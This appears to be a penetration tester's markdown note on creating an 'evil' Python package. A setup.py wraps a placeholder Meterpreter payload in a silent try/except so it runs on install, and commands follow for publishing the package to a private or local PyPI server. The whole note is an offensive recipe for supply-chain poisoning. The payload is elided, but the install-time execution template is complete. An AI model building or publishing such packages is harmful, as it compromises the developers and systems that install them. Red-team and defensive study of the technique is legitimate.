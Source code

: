 
# Create evil package
#python #package #pypi #metasploit 

## Remote upload
### Structure
Payload: [[Metasploit]]
```
.
├── evil
│   ├── evil.py
│   ├── __init__.py
│   └── __main__.py
├── README.md
└── setup.py
```


### Creat dist for package
`python3 setup.py sdist`


## Upload package to an pypiserver
```
pip install twine
twine upload file_name.whl --repository-url https://pip.server_name.com/
```

## Local evil package
TODO might even work remote

### Files

struc:
```
.
├── .pypirc
└── setup.py

```

setup.py:
```
import setuptools

try:
	<meterpreter payload>
except:
    pass

setuptools.setup(
    name="example-pg-evil-1", # Replace with your own username
    version="0.0.1",
    author="sn0b4ll",
    author_email="author@example.com",
    description="A small example package",
    long_description="Muhaha",
    long_description_content_type="python",
    url="https://github.com/pypa/sampleproject",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

.pypirc
```
[distutils]
index-servers = local

[local]
repository: <server>
username: <user>
password: <credential>

```

### Exec
`python3 setup.py sdist register -r local upload -r local`